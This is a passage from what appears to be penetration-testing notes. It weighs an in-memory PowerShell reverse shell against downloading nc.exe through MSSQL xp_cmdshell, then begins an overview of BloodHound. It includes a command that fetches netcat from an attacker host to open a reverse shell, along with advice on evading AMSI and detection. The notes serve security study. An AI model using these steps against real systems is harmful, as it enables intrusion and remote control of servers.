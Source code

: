 - **Method:**  
  Use xp_cmdshell to download an external binary (e.g., xp_cmdshell wget http://my_ip/nc.exe) and then execute it to spawn a reverse shell.
- **Pros:**  
  - **Simplicity:** Tools like netcat (nc.exe) are straightforward and well-known for reverse shells.
  - **Bypassing PowerShell Restrictions:** If PowerShell is locked down or heavily monitored, using an external binary might bypass those controls.
- **Cons:**  
  - **Disk Artifacts:** Downloading and executing a file leaves a trace on the disk, which can be detected by forensic analysis.
  - **Availability:** This approach assumes that utilities like wget (or an alternative like certutil or curl) are available on the target system.
  - **Binary Hosting:** You need to host the binary on your server and ensure it’s accessible.

---

### Choosing the Best Method

- **Environment Considerations:**  
  - If the target has strict monitoring on PowerShell or if AMSI is active, the in-memory method might trigger alerts or be blocked.  
  - If you’re in an environment where file downloads are allowed and there's less scrutiny on executable files, the binary method may work fine.

- **Operational Goals:**  
  - **Stealth vs. Persistence:** In-memory techniques (PowerShell -EncodedCommand) are typically preferred for stealth.  
  - **Ease of Use:** Sometimes, the binary method (downloading nc.exe) can be simpler to deploy, especially if you already have a reliable reverse shell binary at hand.

- **Detection Trade-offs:**  
  - In-memory payloads leave less forensic evidence but are more likely to be flagged by behavioral detection systems.  
  - Downloaded binaries are easier to spot via file integrity checks and antivirus scans, but they might avoid some script-based detection rules.

---

### Summary

Both methods leverage xp_cmdshell to achieve remote code execution, but they do so in different ways:  
- **PowerShell Reverse Shell (In-Memory):** Uses native Windows functionality with less disk activity, ideal for stealth if you can evade script scanners.  
- **Binary-Based Reverse Shell:** Downloads an external reverse shell executable, potentially bypassing PowerShell restrictions but leaving a disk footprint.

Your choice should depend on the target’s environment, your need for stealth, and the defenses you expect to encounter.

## Bloodhound

BloodHound is a powerful tool used to map and analyze Active Directory (AD) environments through the lens of graph theory. It’s invaluable for both attackers and defenders to visualize complex relationships, permissions, and potential attack paths within a domain. Here’s an in‐depth explanation of how it works, its use cases, strengths, and weaknesses.
